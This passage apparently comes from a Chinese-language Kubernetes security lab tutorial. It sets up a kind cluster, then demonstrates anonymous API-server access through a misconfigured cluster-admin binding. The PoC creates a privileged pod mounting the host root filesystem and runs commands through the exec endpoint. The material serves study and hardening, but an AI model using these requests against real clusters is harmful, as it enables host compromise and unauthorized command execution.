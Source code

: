 将其保存为 k8s.yml 文件

```plain
kind create cluster --config k8s.yaml
```

完成后，查看当前已经有的集群

```plain
kind get clusters
```

此时创建好的 K8S 集群还是 Master，如果想在 Master 节点上直接装 Pod，则需要去除污点才可以正常安装 Pod

```plain
kubectl taint nodes --all node-role.kubernetes.io/master-
```

如果想要删除某个集群可以使用

```plain
kind delete cluster --name k8s
```

### [0x02 配置不当引发的组件安全问题](#toc_0x02)

##### [API Server 未授权访问](#toc_api-server)

运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使 6443 端口允许匿名用户以管理员权限向集群内部下发指令

```plain
kubectl create clusterrolebinding system:anonymous --clusterrole=cluster-admin --user=system:anonymous
```

Poc:

```plain
#查看 pods,GET
https://192.168.249.129:26443/api/v1/namespaces/default/pods?limit=500

#创建特权容器，POST
https://192.168.249.129:26443/api/v1/namespaces/default/pods
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}

#执行命令，GET
https://192.168.249.129:26443/api/v1/namespaces/default/pods/test-4444/exec?stdout=1&stderr=1&tty=true&command=whoami
```

在用 PostMan 测试第三条执行命令的时候我出现了"Upgrade request required"(400)
